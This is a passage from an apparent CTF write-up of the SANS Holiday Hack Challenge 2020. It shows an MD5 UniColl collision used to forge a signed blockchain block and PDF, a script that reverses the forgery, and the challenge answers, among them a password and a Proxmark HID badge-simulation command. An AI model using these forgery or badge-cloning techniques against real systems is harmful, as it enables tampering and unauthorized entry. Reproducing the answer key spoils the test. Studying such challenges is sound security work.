something's off with this object. First, there's the :code:`_Go_Away/Santa`
text, and the binary blob at the end.

Anyway, let's take a look at object #2:

.. image:: /images/sans-christmas-challenge-2020/129459.pdf_object_2.png
    :alt: 129459.pdf_object_2.png
    :align: center

It's indeed a :code:`/Pages` object, pointing to object #23 for the
:code:`/Page`. But if we keep exploring :code:`129459.pdf`, we find this under
object #3:

.. image:: /images/sans-christmas-challenge-2020/129459.pdf_object_3.png
    :alt: 129459.pdf_object_3.png
    :align: center

*Another* :code:`/Pages` object, pointing to *another* :code:`/Page` object.
As :code:`pdfid` pointed out, there seems to be two pages in this PDF file,
but the catalog points to only one of them. What would happend if we modified
the :code:`/Catalog` (object #1) so that it pointed to object #3 instead of
object #2? We can edit :code:`129459.pdf` with a binary editor to modify the
"2" to a "3". `Here </docs/sans-christmas-challenge-2020/129459_modified_catalog.pdf>`__'s
the file that we get:

    *Earlier today, I saw this bloke Jack Frost climb into one of our cages and
    repeatedly kick a wombat. I don’t know what’s with him... it’s like he’s a
    few stubbies short of a six-pack or somethin’. I don’t think the wombat was
    actually hurt... but I tell ya, it was more ‘n a bit shook up. Then the
    bloke climbs outtathe cage all laughin’ and cacklin’ like it was some kind
    of bonza joke. Never in my life have I seen someone who was that bloody
    evil...”*

    Quote from a Sidney (Australia) Zookeeper

    I have reviewed a surveillance video tape showing the incident and found
    that it does, indeed, show that Jack Frost deliberately traveled to
    Australia just to attack this cute, helpless animal.  It was appalling.

    I tracked Frost down and found him in Nepal. I confronted him with the
    evidence and, surprisingly, he seems to actually be incredibly contrite.
    He even says that he’ll give me access to a digital photo that shows his
    “utterly regrettable” actions. Even more remarkably, he’s allowing me to
    use his laptop to generate this report – because for some reason, my laptop
    won’t connect to the WiFi here.

    He says that he’s sorry and needs to be “held accountable for his actions.”
    He’s even said that **I should give him the biggest Naughty/Nice penalty**
    possible. I suppose he believes that by cooperating with me,that I’ll
    somehow feel obliged to go easier on him. That’s not going to happen...
    I’m WAAAAY smarter than old Jack.

    Oh man... while I was writing this up, I received a call from my wife
    telling me that one of the pipes inour house back in the North Pole has
    frozen and water is leaking everywhere. How could that have happened?

    Jack is telling me that I should hurry back home. He says I should save
    this document and then he’ll go ahead and submit the full report for me. 
    I’m not completely sure I trust him, but I’ll make myself a note and go in
    and check to make absolutely sure he submits this properly.

    Shinny Upatree

    3/24/2020

*Gasp!* It looks like Jack Frost managed to modify the PDF sent by Shinny
Upatree, as well as his naughty/nice sign! But how could he do that, when
the blocks are signed? Well, remember that the hash function used to compute
the signature is MD5, which is extremely insecure, since many collision
attacks were found against it.

You can find more information on collision attacks on `Ange Albertini's
collisions repository on GitHub <https://github.com/corkami/collisions>`__.

Let's take a look at the beginning of Jack Frost's block:

.. code-block:: console
    :hl_lines: 13

    $ hexdump -C ./blocks/block_1010 | head -n 15
    00000000  30 30 30 30 30 30 30 30  30 30 30 31 66 39 62 33  |000000000001f9b3|
    00000010  61 39 34 34 37 65 35 37  37 31 63 37 30 34 66 34  |a9447e5771c704f4|
    00000020  30 30 30 30 30 30 30 30  30 30 30 31 32 66 64 31  |0000000000012fd1|
    00000030  30 30 30 30 30 30 30 30  30 30 30 30 30 32 30 66  |000000000000020f|
    00000040  32 66 66 66 66 66 66 66  66 31 66 66 30 30 30 30  |2ffffffff1ff0000|
    00000050  30 30 36 63 ea 46 53 40  30 3a 60 79 d3 df 27 62  |006c.FS@0:`y..'b|
    00000060  be 68 46 7c 27 f0 46 d3  a7 ff 4e 92 df e1 de f7  |.hF|'.F...N.....|
    00000070  40 7f 2a 7b 73 e1 b7 59  b8 b9 19 45 1e 37 51 8d  |@.*{s..Y...E.7Q.|
    00000080  22 d9 87 29 6f cb 0f 18  8d d6 03 88 bf 20 35 0f  |"..)o........ 5.|
    00000090  2a 91 c2 9d 03 48 61 4d  c0 bc ee f2 bc ad d4 cc  |*....HaM........|
    000000a0  3f 25 1b a8 f9 fb af 17  1a 06 df 1e 1f d8 64 93  |?%............d.|
    000000b0  96 ab 86 f9 d5 11 8c c8  d8 20 4b 4f fe 8d 8f 09  |......... KO....|
    000000c0  30 35 30 30 30 30 39 66  35 37 25 50 44 46 2d 31  |0500009f57%PDF-1|
    000000d0  2e 33 0a 25 25 c1 ce c7  c5 21 0a 0a 31 20 30 20  |.3.%%....!..1 0 |
    000000e0  6f 62 6a 0a 3c 3c 2f 54  79 70 65 2f 43 61 74 61  |obj.<</Type/Cata|

We can see that the blob file aligns exactly to a multiple of 16 bytes. We can
see that this is also the case with the weird binary we saw in the PDF's object
#1:

.. code-block:: console
    :hl_lines: 13

    $ hexdump -C ./129459.pdf | head -n 15
    00000000  25 50 44 46 2d 31 2e 33  0a 25 25 c1 ce c7 c5 21  |%PDF-1.3.%%....!|
    00000010  0a 0a 31 20 30 20 6f 62  6a 0a 3c 3c 2f 54 79 70  |..1 0 obj.<</Typ|
    00000020  65 2f 43 61 74 61 6c 6f  67 2f 5f 47 6f 5f 41 77  |e/Catalog/_Go_Aw|
    00000030  61 79 2f 53 61 6e 74 61  2f 50 61 67 65 73 20 32  |ay/Santa/Pages 2|
    00000040  20 30 20 52 20 20 20 20  20 20 30 f9 d9 bf 57 8e  | 0 R      0...W.|
    00000050  3c aa e5 0d 78 8f e7 60  f3 1d 64 af aa 1e a1 f2  |<...x..`..d.....|
    00000060  a1 3d 63 75 3e 1a a5 bf  80 62 4f c3 46 bf d6 67  |.=cu>....bO.F..g|
    00000070  ca f7 49 95 91 c4 02 01  ed ab 03 b9 ef 95 99 1c  |..I.............|
    00000080  5b 49 9f 86 dc 85 39 85  90 99 ad 54 b0 1e 73 3f  |[I....9....T..s?|
    00000090  e5 a7 a4 89 b9 32 95 ff  54 68 03 4d 49 79 38 e8  |.....2..Th.MIy8.|
    000000a0  f9 b8 cb 3a c3 cf 50 f0  1b 32 5b 9b 17 74 75 95  |...:..P..2[..tu.|
    000000b0  42 2b 73 78 f0 25 02 e1  a9 b0 ac 85 28 01 7a 9e  |B+sx.%......(.z.|
    000000c0  0a 3e 3e 0a 65 6e 64 6f  62 6a 0a 0a 32 20 30 20  |.>>.endobj..2 0 |
    000000d0  6f 62 6a 0a 3c 3c 2f 54  79 70 65 2f 50 61 67 65  |obj.<</Type/Page|
    000000e0  73 2f 43 6f 75 6e 74 20  31 2f 4b 69 64 73 5b 32  |s/Count 1/Kids[2|

Seems like the usage of the `UniColl <https://github.com/corkami/collisions#unicoll-md5>`__
attack against MD5. As detailed by Ange Albertini, it can be used to create a
`collision between two PDF files <https://github.com/corkami/collisions#pdf>`__.

But wait, to implement these attacks, you would need to know the prefix of the
file beforehand, and there's a random nonce at the beginning of each block,
specifically to prevent such attacks. Well, as we saw in the `previous
section <#naughty-nice-list-with-blockchain-investigation-part-1>`__, we can
predict future nonces.

Everything points to an MD5 collision:

- Jack Frost modified his naughty/nice sign from "0" (:code:`0x30`) to "1"
  (:code:`0x31`) at offset :code:`0x49` in his block
- He then added an MD5 collision block as a binary blob, which lies between
  :code:`0x54` and :code:`0xc0` in the block
- He also modified the PDF so that the catalog from pointing to "3"
  (:code:`0x33`) to pointing to "2" (:code:`0x32`), at offset :code:`0x109` in
  his block
- He then added an MD5 collision block at the end of the catalog, which lies
  between :code:`0x10e` and :code:`0x18a` in the block

Knowing all of this, we can recreate Jack's original block by switching this
naughty/nice sign back to :code:`0x30`, the page in the catalog back to
:code:`0x33`, and modifying one byte in each collision block to get our MD5
collision.

Here's our Python script to do so:

.. code-block:: python

    #!/usr/bin/env python3

    from naughty_nice import Chain
    from hashlib import md5, sha256

    OFFSET_SIGN = 0x49 # The offset to the naughty/nice sign
    FLIP_RANGE_SIGN = (0x54, 0xc0) # The range where we'll try to flip the byte

    OFFSET_PAGE = 0x109 # The offset to the page pointer
    FLIP_RANGE_PAGE = (0x10e, 0x18a) # The range where we'll try to flip the byte


    def find_byte_to_flip(b_array, b_array_to_match, flip_range):
        # This is the MD5 to match
        target_md5 = md5(b_array_to_match).hexdigest()

        # We go through every byte in the flip range
        for i in flip_range:
            # We save the initial byte value before doing our modifications
            initial_byte = b_array[i]

            # We try every byte value possible
            for j in range(256):
                b_array[i] = j
                # If we have an MD5 match, we return it
                if md5(b_array).hexdigest() == target_md5 and b_array != b_array_to_match:
                    print('Match found: offset {}, new_byte value 0x{:02x}'.format(i, j))
                    return (i, j)

            # If we don't have a match, we restore the initial value
            b_array[i] = initial_byte

    def main():
        # We load the block chain, and more specifically Jack's block
        c = Chain(load=True, filename='blockchain.dat')
        jf_block = c.blocks[1010]
        jf_block_data = jf_block.block_data()

        # We create a copy of the altered data to recreate the original data
        jf_orig_data = bytearray(jf_block.block_data())

        # We modify the naughty/nice sign from "1" (0x31) to "0" (0x30)
        jf_orig_data[OFFSET_SIGN] = 0x30
        sign_flip_offset, sign_flip_value = find_byte_to_flip(
                jf_orig_data[:FLIP_RANGE_SIGN[1]],
                jf_block_data[:FLIP_RANGE_SIGN[1]],
                range(*FLIP_RANGE_SIGN))
        jf_orig_data[sign_flip_offset] = sign_flip_value

        # We modify the page pointer in the PDF from "2" (0x32) to "3" (0x33)
        jf_orig_data[OFFSET_PAGE] = 0x33
        page_flip_offset, page_flip_value = find_byte_to_flip(
                jf_orig_data[:FLIP_RANGE_PAGE[1]],
                jf_block_data[:FLIP_RANGE_PAGE[1]],
                range(*FLIP_RANGE_PAGE))
        jf_orig_data[page_flip_offset] = page_flip_value

        # We create the block from the data, the hash, and the signature
        jf_orig_block = jf_orig_data + \
                bytearray(jf_block.hash.encode('utf-8')) + \
                bytearray(jf_block.sig)

        # We save it to a file
        with open('./jf_orig_block', 'wb') as f:
            f.write(jf_orig_block)

    if __name__ == '__main__':
        main()


Let's run it:

.. code-block:: console
    :hl_lines: 9

    $ ./reconstruct_jack_block.py     
    Match found: offset 137, new_byte value 0xd7
    Match found: offset 329, new_byte value 0x1b
    $ md5sum ./blocks/block_1010
    b10b4a6bd373b61f32f4fd3a0cdfbf84  ./blocks/block_1010
    $ md5sum ./jf_orig_block 
    b10b4a6bd373b61f32f4fd3a0cdfbf84  ./jf_orig_block
    $ sha256sum ./jf_orig_block 
    fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb  ./jf_orig_block

We have successfully reconstructed Jack's original block. We can see that the
MD5 hashes of our original block and the altered block that is in the block
chain match. The SHA256 sum of Jack's block is :code:`fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb`.

We can even rebuild the original blockchain, and check that the signatures are
still valid:

.. code-block:: console

    $ cp -r blocks/ blocks_orig/ # we copy our original extracted blocks
    $ cp jf_orig_block ./blocks_orig/block_1010 # we replace Jack's block with our recovered original block
    $ cat ./blocks_orig/* > blockchain_orig.dat
    $ sha256sum blockchain.dat blockchain_orig.dat 
    a29c3b456566a321e69bdcebed58eccd452e377941d6d44e40ae8c37e9629e5f  blockchain.dat
    37679c58c8c2aa0c0939df5187064543181e5118490b0be21e7bbcf25ade693b  blockchain_orig.dat

We recreated the original blockchain, and we can see that the SHA256 sums
don't match. Let's verify the original chain:

.. code-block:: pycon
    :hl_lines: 7

    >>> from Crypto.PublicKey import RSA
    >>> with open('official_public.pem', 'rb') as fh:
    ...     official_public_key = RSA.importKey(fh.read())
    ...
    >>> c_orig = Chain(load=True, filename='blockchain_orig.dat')
    >>> c_orig.verify_chain(official_public_key, previous_hash=c_orig.blocks[0].previous_hash)
    True

Our original chain is indeed correct, thanks to the MD5 collision.

Conclusion
~~~~~~~~~~

We can now go through the door in Santa's office. We arrive on the roof, where
Jack Frost has been apprehended.

.. image:: /images/sans-christmas-challenge-2020/sans_christmas_challenge_2020_w00t.png
    :alt: sans_christmas_challenge_2020_w00t.png
    :align: center

.. image:: /images/sans-christmas-challenge-2020/prison_jack_frost.png
    :alt: prison_jack_frost.png
    :align: center

*Jack Frost says*

    My plan was NEARLY perfect… but I never expected someone with your skills
    to come around and ruin my plan for ruining the holidays!

    And now, they’re gonna put me in jail for my deeds.

.. image:: /images/sans-christmas-challenge-2020/santa.png
    :alt: santa.png
    :align: center

*Santa says*

    Thank you for foiling Jack’s foul plot!

    He sent that magical portrait so he could become me and destroy the
    holidays!

    Due to your incredible work, you have set everything right and saved the
    holiday season!

    Congratulations on a job well done!

    Ho Ho Ho!

Thank *you* Santa, you're making me blush.

Some personal questions still remain:

- Was the ImageMagick trail in the tag generator really a dead-end? I still
  wonder why opening files didn't work in the real environment whereas it
  worked on my machine.
- How come I had to specify both a :code:`preinst` *and* a :code:`postinst`
  in my malicious :code:`.deb` file for my payload to be executed?
- What about the TLS server on the hijacked machine in the ARP shenanigans
  challenge?
- There's also some binary blob at the end of the trailer of
  :code:`129459.pdf`. I couldn't determine if it was part of the MD5 collision
  attack or not. We didn't need to modify it at all, so I'm wondering why it
  was there in the first place.

If anyone has any answers, I'd be glad to know them!

Thanks to the SANS team for yet again a superb Christmas challenge. I
particularly enjoyed the ARP challenge, and of course this last crypto
challenge was a delight! Can't wait for next year!

Answer to the questions
~~~~~~~~~~~~~~~~~~~~~~~

1. There is a photo of Santa's Desk on that billboard with his personal gift
   list. What gift is Santa planning on getting Josh Wright for the holidays?

Santa is planning on getting a :code:`Proxmark` for Josh Wright.

2. When you unwrap the over-wrapped file, what text string is inside the
   package?

The text string says :code:`North Pole: The Frostiest Place on Earth`.

3. Help Sugarplum Mary in the Courtyard find the supervisor password for the
   point-of-sale terminal. What's the password?

The password is :code:`santapass`.

4. Talk to Pepper Minstix in the entryway to get some hints about the
   Santavator.

We managed to operate the Santavator in... unauthorized ways.

5. Open the HID lock in the Workshop.

We can open the HID lock with the command :code:`lf hid sim -r 2006e22f13`.

6. Access the Splunk terminal in the Great Room. What is the name of the
   adversary group that Santa feared would attack KringleCon?

The adversary group Santa feared is :code:`The Lollipop Guild`.

7. Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D
   bus. We need you to exclude the malicious messages and no others to fix the
   sleigh.

We were able to defrost the sleigh using filters:

- ID: :code:`19B`. Operator: :code:`Equals`. Criterion: :code:`0000000F2057`.
- ID: :code:`080`. Operator: :code:`Less`. Criterion: :code:`000000000000`.

8. Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is
   in the environment variable :code:`GREETZ`?

The variable :code:`GREETZ` is equal to :code:`JackFrostWasHere`.

9. Go to the NetWars room on the roof and help Alabaster Snowball get access
   back to a host using ARP. Retrieve the document at :code:`/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.
   Who recused herself from the vote described on the document?

The person who recused hersel was :code:`Tanta Kringle`.

10. Bypass the Santavator fingerprint sensor. Enter Santa's office without
    Santa's fingerprint.

Several ways to bypass the fingerprint sensor were detailed in `this section <#second-method-pretending-we-have-the-bits-and-bobs>`__
and `this section <#third-method-who-needs-bits-and-bobs-anyway>`__.

11. a. Even though the chunk of the blockchain that you have ends with block
    129996, can you predict the nonce for block 130000?

The nonce for block 130000 has a value of :code:`57066318f32f729d`.

11. b. The SHA256 of Jack's altered block is: :code:`58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f`.
    If you're clever, you can recreate the original version of that block by
    changing the values of only 4 bytes. Once you've recreated the original
    block, what is the SHA256 of that block?

Jack's original block has a SHA256 sum of :code:`fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb`.
